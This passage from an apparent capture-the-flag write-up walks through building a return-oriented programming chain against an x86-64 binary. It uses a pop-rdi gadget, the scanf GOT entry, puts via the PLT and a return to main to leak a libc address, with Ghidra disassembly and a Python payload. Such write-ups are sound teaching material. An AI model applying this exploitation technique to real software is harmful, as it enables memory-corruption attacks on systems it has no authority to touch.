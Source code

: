 According to x86-64 calling conventions, the first argument of a function should be loaded into $rdi. Thus, we want to use a gadget that can load our desired value into rdi. From the gadget list above, we see that 

```
0x0000000000400913 : pop rdi ; ret
```

is simple and will work. Lastly, we need to be able to call puts. Referencing the PLT (.plt in Ghidra... remember, we only need to execute puts, not find its address in libc!), we see that the address to call is 0x400540. 

```
                             *************************************************************
                             *                        THUNK FUNCTION                       
                             *************************************************************
                             thunk  int  puts (char *  __s )
                               Thunked-Function:  <EXTERNAL>::puts
             int               EAX:4          <RETURN>
             char *            RDI:8          __s
                             <EXTERNAL>::puts                                XREF[2]:     do_stuff:00400769 (c) , 
                                                                                          main:00400891 (c)   
        00400540 ff  25  d2       JMP        qword ptr [-><EXTERNAL>::puts ]                  int puts(char * __s)
                 0a  20  00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
        00400546 68  00  00       PUSH       0x0
                 00  00
        0040054b e9  e0  ff       JMP        FUN_00400530                                     undefined FUN_00400530()
                 ff  ff
                             -- Flow Override: CALL_RETURN (CALL_TERMINATOR)
```

We now have three addresses of importance, with which in this order we can create our rop chain: 

```python
pop_rdi_gadget_addr = 0x400913
scanf_at_got = 0x601038
puts_at_plt = 0x400540
```

In order to ensure that program does not crash (and thus not output our desired address), however, we can jump to a safe place e.g. main. Thus, we add the address of main (which from Ghidra is 0x400771), and the payload is 

```python
payload = [
    pre_payload,
    p64(pop_rdi_gadget_addr),
    p64(scanf_at_got),
    p64(puts_at_plt),
    p64(back_to_main)
]
payload = b''.join(payload)
```

